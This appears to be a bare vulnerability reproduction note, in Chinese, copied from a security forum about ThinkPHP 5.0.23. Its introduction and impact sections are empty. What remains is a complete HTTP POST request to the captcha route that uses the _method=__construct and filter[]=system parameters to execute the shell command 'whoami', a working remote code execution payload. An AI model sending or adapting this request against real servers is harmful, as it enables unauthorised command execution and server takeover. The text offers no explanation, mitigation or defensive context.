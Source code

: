 # Thinkphp 5.0.23

> 原文：[https://www.zhihuifly.com/t/topic/3156](https://www.zhihuifly.com/t/topic/3156)

# Thinkphp 5.0.23

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
POST /index.php?s=captcha HTTP/1.1
Host: yuorip
Accept-Encoding: gzip, deflate
Accept: */* Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72 `_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami` 
```